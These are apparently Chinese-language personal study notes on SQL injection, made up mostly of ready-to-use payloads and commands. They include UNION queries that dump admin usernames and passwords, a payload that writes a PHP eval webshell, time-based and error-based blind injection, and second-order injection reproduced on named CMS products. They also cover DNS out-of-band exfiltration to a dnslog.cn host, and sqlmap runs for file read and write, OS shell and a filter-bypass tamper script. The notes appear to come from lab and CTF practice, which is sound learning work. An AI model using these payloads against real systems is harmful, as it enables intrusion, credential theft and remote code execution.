




# SQL注入


站位到7报错

```
order by 7
```


说明该数据库列表有6位


第4位和第5位显示出来，在4,5进行插入语句

```
union select 1,2,3,4,5,6
```


查询数据库版本，服务器操作系统

```
union select 1,2,3,version(),@@version_compile_os,6
```


查询数据库名，用户名

```
union select 1,2,3,database(),user(),6
```


查询数据库表名

```
union select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema="demo01"
```


查看表明为“admin”中的列名

```
union select 1,2,3,group_concat(column_name),5,6 from information_schema.columns where table_name="admin"
```


查询表名为“admin”，列名为“username,password”的第一个字段

```
union select 1,2,3,username,password,6 from admin limit 0,1
```


查询表名为“admin”，列名为“username,password”的第二个字段

```
union select 1,2,3,username,password,6 from admin limit 0,2
```




查询是否有读取权限

```
show GLOBAL VARIABLES LIKE "%secure%"
```


```
union select 1,2,3,@@global.secure_file_priv,5,6
```


并没有权限，需要在my.ini添加secure_file_priv=""


读取d盘下的123.txt文件

```
union select 1,2,3,load_file("d:\\123.txt"),5,6
```


写入后门代码

```
union select 1,2,3,4,"<?php eval($_POST[pass]);?>",6 into outfile "D://studying/demo01/123.php"
```


使用哥斯拉连接


### 闭合

#### 单引号闭合——字符型

```
' union select 1,2,3,4,5,6-- +
```


#### 百分号闭合——搜索型


```
$sql="select * from news where id like '%$id%'";
```

我使用上面闭合也可以

```
%' union select 1,2,3,database(),5,6-- +
```


拼接后门的%形成闭合

```
%' union select 1,2,3,database(),5,6 and'%'='
```


#### 括号闭合——框架型

```
$sql="select * from news where id=('$id')";
```


```
') union select 1,2,3,database(),5,6--+
```


使用and闭合后面的

```
') union select 1,2,3,database(),5,6 and ('=
```


#### 包含括号——框架型

```php
$sql="select * from news where (id='$id')";
```


```
') union select 1,2,3,database(),5,6 and ('=
```


### 盲注

#### 布尔盲注——需要数据库输出回显

数据库名长度为6的时候未出现报错，所以数据库名长度为6

```
and length(database())=6;
```


猜6个字符的数据库名

```
and left(database(),6)='demo01';
```


#### 延时注入——无需回显

条件成立延迟五秒，不成立就不延迟

```
and if (1=1,sleep(5),sleep(0))
```


延迟五秒，数据库名长度为6

```
and if (length(database()=6),sleep(5),sleep(0))
```


利用布尔加延迟盲注，前面条件为真，就延迟，假着不延迟

```
and if(left(database(),6)='demo01',sleep(5),sleep(0))
```


#### 报错注入——需要数据库报错处理


```
and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
```


```
and extractvalue(1, concat(0x5c, (select user())));
```


### Delete 实验

#### 布尔—NO—输出都是一样，无法判断正确还是错误

```
or left(database(),6)='demo01';
```


#### 延时注入—YES—有延迟

```
or if(left(database(),6)='demo01',sleep(5),0)
```


#### 报错注入—YES—代码中有报错处理

```
 or updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
```


### 熊海CMS

在项目里搜索insert 

`INSERT INTO 语句通常用于向 MySQL 表添加新的记录`

`mysql_error语句数据库报错处理可以使用报错注入，但是PHP 5.5.0 起已废弃，并在自 PHP 7.0.0 开始被移除`


这里的访问文件的方式比较独特，使用r接受文件名


在源代码中搜索引用了submit


然后访问contact


#### 报错注入，源代码有冒号,使用and' 闭合

```
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```





### KKCMS

搜索delete，搜索到了ad.php


然后搜索ad.php，搜索发现cms_ad.php


访问cms_ad.php,发现删除按钮


#### 延时注入

使用burp抓包查看正常发包时间（5millis）


明显延迟了（14.144millis）

```
 or if(1=1,sleep(1),0)
```


使用asci码绕过php转义

```
or if(ord(left(database(),1))=107,sleep(3),0) 
```

### 二次注入

提前把sql语句写入数据库中（注册），登录用户的时候将用户名存入了cookie，更改密码的逻辑是将用户名从cookie中拿出来，形成二次注入。

注册代码中必须加上`addslashes`转义才能二次注入


#### 注册用户名为注入语句

```
admin' and extractvalue(1, concat(0x5c, (select user())))#
```


#### 登录


#### 修改密码,报错出数据库用户名


#### 74CMS

注入语句需要通过白盒审计出来，看新增数据功能点，新增功能点还需要有转义`addslashes`，到修改或者删除功能点，

找二次注入第一步应该先搜addslashes函数


在common.inc.php自定函数文件中，如果GET/POST参数不为空，就对数据转义。


小弟不才，不会代审，学会了代审再战，直接复现漏洞吧。

创建简历，在教育教育经历添加上注入语句，这里有前端限制长度，修改一下JS就可以。

```
a',`fullname`=user()#
```


点击简历管理，可以看到真实姓名已经变成数据库用户名称


### 堆叠注入

条件：php中的需要使用**mysql_multi_query()**函数，才能执行多条sql语句，反着**mysql_query()**函数只能执行单条sql语句

在数据库管理工具中输入联合语句添加xxx表

```
SELECT * from news WHERE id=1;CREATE TABLE xxx(test VARCHAR(255));
```


执行语句后成功添加xxx表


```
id =1;CREATE TABLE xiao(test VARCHAR(255));
```

在new.php文件中执行联合sql语句直接报错


```
SELECT * FROM `news` where id =1;CREATE TABLE xiao(test VARCHAR(255));
```

将sql语句直接复制到数据库管理工具中执行后成功添加名为xiao的表


因为new.php中使用的的**mysql_query**函数，只能执行单条sql语句


在test.php中执行联合SQL语句，添加dibao的表

```
?id=1;CREATE TABLE dibao(test VARCHAR(255));
```


成功执行联合语句，添加了dibao的表


因为test.php使用了**mysqli_multi_query**函数，可以同时执行多条sql语句


#### [强网杯 2019]随便注

查询数据库名

```
1'; database();
```


查询表名

```
1'; show tables;
```


查询表名为1919810931114514中的列名

```
1';show columns from `1919810931114514`;
```


查询flag时，select被过滤了

```
1';select flag from `1919810931114514`;
```


将下面的语句16进制编码

```
select flag from `1919810931114514`
```


将编码后的sql语句传入a，定义一个名为execsql的预处理语句，执行名为execsql的预处理语句

```
1';set @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

但是set被过滤了



大写一下S成功绕过过滤

```
1';Set @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```

编码以下sql语句也可以拿到flag

```
select * from `1919810931114514`
```

```
1';Set @a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;
```


### 带外注入

条件：需要ROOT高权限且支持load_file()

场景：注入点没有回显

注释掉代码使其不回显


```sql
id=1 and load_file(concat("\\\\",database(),".ik1wtw.dnslog.cn\\xxx.txt"))

```


带出的子域名就是数据库名


### SQLMAP

#### access数据库

```
http://192.168.100.122:89/pic.asp?classid=4-1
```


测试classid是否有SQL注入

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4
```

classid可能存在漏洞


发现数据库版本和操作系统版本就可以确定存在SQL注入


因为是access数据库，查询表面

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4 --tables
```


是否使用默认的字典进行表名爆破

可以更改默认字典进行爆破

```
common-tables.txt
```


默认线程1，最大线程10


查询admin表中的列名

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4 --columns -T "admin"
```


使用common-columns.txt默认字典猜列名


使用线程10爆破


猜出以下列名


查询‘admin’表中‘username,password‘列中的数据

```
python sqlmap.py -u http://192.168.100.122:89/pic.asp?classid=4  --dump -C "username,password" -T "admin"
```


查询到user为admin和MD5密码


#### MySQL数据库

```
http://testphp.vulnweb.com/artists.php?artist=3-2
```


使用sqlmap确实注入点

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1
```


跑出系统版本就可确认有sql注入


查询当前数据库名，除了access数据库都需要查询

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --current-db
```


查询到当前数据库名为“acuart”


查询“acuart”数据库的表

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --tables -D "acuart" --batch
```


查询到“acuart”数据库的表名


查询“acuart”数据库中的”users“表中的列名


```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --columns  -T "users" -D "acuart" --batch
```


查询到“acuart”数据库中的”users“表中的列名


查询“acuart”数据库中的”users“表中“name,pass”列名的字段

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --dump -C "name,pass"  -T "users" -D "acuart" --batch
```


查询到“acuart”数据库中的”users“表中“name,pass”列名的字段


查询当前数据库所有东西

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --dump -all --batch
```

查询当前数据库用户是否为管理员，

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --is-dba --batch
```

True ：是，False：不是


#### MySQL数据：高权限


使用sqlmap跑出注入点

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --batch
```


跑出版本信息就可以确定有SQL注入


##### 查询数据库名

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --current-db --batch
```


##### 查询用户是否有管理权限，这里显示的True，说明有管理员权限

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --is-dba --batch
```


##### 打开SQL数据库命令模式

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --sql-shell
```

查询数据库版本

```
select version();
```


查询admin中的数据

```
select * from admin;
```


##### 读取文件

读取D盘中的123.txt

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --file-read "d:\123.txt
```

读取成功保存在本地中


##### 写入文件

将D盘中的123.txt写入到对方的C盘中123.txt中

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --file-write "d:\\123.txt" --file-dest "c:\\123.txt"
```

这里把数据库的信息也写进入了，不知道什么原因


##### 执行单条命令

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1  --os-cmd=calc
```

需要输入服务器的目录地址


弹出计算器


##### 执行交互式命令

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1  --os-shell
```

输入服务器的目录地址


成功执行


##### post注入


post注入带data

```
python sqlmap.py -u "http://testphp.vulnweb.com/login.php" --data "uname=123&pass=123"
```

跑出服务器等信息


##### 数据包注入*

复制请求头


再复制请求负载到文本文件123.txt中，在注入点加入*


##### base64编码注入

```
http://192.168.100.2/sqli2/base64.php?id=MQ==
```


使用sqlmap尝试跑一下是否有sql注入点

```
python sqlmap.py -u "http://192.168.100.2/sqli2/base64.php?id=MQ==" --batch
```

注入失败，因为base64编码




使用tamper的base64encode插件

```
python sqlmap.py -u "http://192.168.100.2/sqli2/base64.php?id=MQ==" tamper=base64encode --batch
```

发现注入，成功查询到服务器版本信息


##### 关键词过滤

过滤关键词为空


尝试使用sqlmap跑一下是否有注入点

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --batch
```

注入失败


根据过滤情况进行编写大小写绕过模块

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):


    return payload.replace("select","sElEct").replace("SELECT","seLect").replace("sleep","Sleep").replace("SLEEP","sLeep").replace("ELT","Elt").replace("elt","Elt").replace("and","And").replace("AND","And").replace("or","Or").replace("OR","oR").replace("xor","Xor").replace("XOR","XoR")
```

使用编写的tamper绕过模块

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py
```

成功绕过检测到注入点


##### 分析拓展-代理&调试&指纹&风险&等级

###### 后期分析调试

```
-v  #详细的等级(0-6) 
    0：只显示Python的回溯，错误和关键消息。 
    1：显示信息和警告消息。 
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
```


查看http请求数据详细

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py -v4
```

请求数据，AND已经被改为And


###### --proxy 代理注入

sqlmap联动到burp查看数据包

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py -v4 --proxy="http://127.0.0.1:8080"
```


###### 打乱默认指纹

自定义请求头：--user-agent “”

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"  --proxy="http://127.0.0.1:8080"
```


随机请求头：--random-agent

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --random-agent  --proxy="http://127.0.0.1:8080"
```


延迟响应，默认为5：--time-sec=(2,5)

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --time-sec=3  --proxy="http://127.0.0.1:8080"
```


###### 使用更多测试

测试水平等级，默认为1：--level=(1-5)

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --level=3  --proxy="http://127.0.0.1:8080"
```


测试风险等级，默认为1：--risk=(0-3)

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --risk=3  --proxy="http://127.0.0.1:8080"
```

